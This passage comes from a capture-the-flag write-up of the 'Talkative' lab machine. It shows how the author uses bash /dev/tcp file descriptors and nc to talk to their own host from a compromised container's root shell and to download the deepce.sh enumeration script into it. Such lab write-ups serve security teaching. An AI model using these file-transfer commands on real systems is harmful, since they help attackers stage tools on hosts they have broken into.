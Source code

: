 
At this point, I've created a file descriptor (3), and have both in and
out for it redirecting to `/dev/tcp/10.10.14.6/9001`. So reading and
writing to 3 will read and write to this special file, which will
represents a TCP socket between Talkative and my host. For this to work,
the socket has to open, so it has, and that's the "Connection received"
message.

I can write to the descriptor / socket with something like
`echo "test!" >&3`, and it comes out on my host:



    Connection received on 10.10.11.155 60860
    test!



If I run `cat <&3`, then it will hang, waiting for input from the
socket. Because `nc` was run without any input, I can go into that
window and type a message:



    Connection received on 10.10.11.155 60860
    test!
    Hello from hacky!



And it's sent back to Talkative:



    root@c150397ccd63:/dev/shm# cat <&3
    Hello from hacky!



To get a file up, I'll kill the `nc` window and re-run it like this:



    oxdf@hacky$ md5sum deepce.sh 
    fbbbd13e42ed84c07f8fde52ac035706  deepce.sh
    oxdf@hacky$ cat deepce.sh | nc -lnvp 9001
    Listening on 0.0.0.0 9001



Now I'll do the same thing, but this time save it to a file:



    root@c150397ccd63:/dev/shm# exec 3<>/dev/tcp/10.10.14.6/9001
    root@c150397ccd63:/dev/shm# cat <&3 > deepce.sh             
    ^C
    root@c150397ccd63:/dev/shm# md5sum deepce.sh 
    fbbbd13e42ed84c07f8fde52ac035706  deepce.sh



There's no end to the socket, so I'll have to Ctrl-c it after a few
seconds. The hashes match, so I'm good there.

### deepce
